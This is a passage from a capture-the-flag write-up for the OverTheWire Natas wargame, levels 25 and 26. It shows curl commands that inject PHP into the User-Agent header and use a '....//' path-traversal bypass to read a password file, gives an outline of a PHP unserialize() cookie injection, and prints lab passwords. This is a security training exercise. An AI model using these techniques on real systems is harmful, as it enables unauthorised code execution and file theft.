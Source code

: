 ```bash
$ curl -v --user natas25:GHF6X7YwACaYYssHVY05cFq83hRktl4c http://natas25.natas.labs.overthewire.org?lang=natas_webpass -H "User-Agent:<?php echo file_get_contents('/etc/natas_webpass/natas26') ?>"
< Set-Cookie: PHPSESSID=t392uh11jernde0e8d5jco84m2;
</form>
</div>
* Connection #0 to host natas25.natas.labs.overthewire.org left intact
```
As we can see, the HTML ends up with `</div>` instead of `</html>` so we hit `exit()`, which means we successfully entered in `logRequest()`. Also, take note of the `PHPSESSID`.

### 2. Read a file
```bash
$ curl -v --user natas25:GHF6X7YwACaYYssHVY05cFq83hRktl4c http://natas25.natas.labs.overthewire.org?lang=....//....//....//....//....//var/www/natas/natas25/logs/natas25_t392uh11jernde0e8d5jco84m2.log
</div>

[17.12.2018 16::49:12] oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T
 "Illegal file access detected! Aborting!"
<br />
```


### Level 26 - PHP exploit with `unserialize()` and `__destruct()`
```
http://natas26.natas.labs.overthewire.org/ natas26 oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T
```

During the unserialization of a PHP object, the magic methods `__wakeup()` and `__destruct()` will be called.

Function call order:
```php
session_start();
if cookie drawing OR get x1 x2 y1 y2
  $imgfile="img/natas26_" . session_id() .".png"; 
  drawImage($imgfile); 
    imagecreatetruecolor()
    drawFromUserdata()
      if get x1..
        imagecolorallocate()
        imageline()
      if cookie drawing
        $drawing=unserialize(base64_decode($_COOKIE["drawing"])); // <-- injection l.70
        imagecolorallocate()
        imageline()
    imagepng
    imagedestroy
  showImage($imgfile);
    if file_exists($imgfile)
      echo <img src="$imgfile"/>
  storeData();
    setcookie()
```
